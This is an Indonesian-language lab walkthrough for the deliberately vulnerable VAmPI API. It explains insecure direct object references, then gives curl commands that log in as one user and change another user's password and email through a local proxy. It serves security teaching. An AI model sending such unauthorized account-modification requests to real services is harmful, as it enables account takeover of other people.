 # Unauthorized Password Change
Access Control menerapkan kebijakan sedemikian rupa sehingga pengguna tidak dapat bertindak di luar izin yang dimaksudkan. Kegagalan otorisasi biasanya menyebabkan pengungkapan informasi yang tidak sah, modifikasi, penghapusan data atau pelaksanaan fungsi bisnis lain di luar batas pengguna. Misalnya adalah mengizinkan melihat atau mengedit akun orang lain, dengan memberikan pengenal uniknya (insecure direct object references)

- Login terlebih dahulu untuk mengakses endpoint `/users/v1/{username}/password`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%202.JPG)

- Setelah kita login sebagai user `test` sekarang kita coba mengubah password user `name1` melalui endpoint `/users/v1/{username}/password`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/password -d '{"password":"testing"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%204.JPG)

- Disini kita berhasil mengubah password user `name1` meskipun kita login sebagai user `test`. Di sisi lain kita juga bisa mengubah email user `name1` melalui endpoint `/users/v1/{username}/email`
```sh
curl -X PUT http://IP_Server:5000/users/v1/name1/email -d '{"email":"testing@mail.com"}' -H 'Authorization: Bearer token' -H 'Content-Type: application/json' -H "Accept: application/json" --proxy http://127.0.0.1:8080 -v
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/unathorized%20password%20change/unauthorized%206.JPG)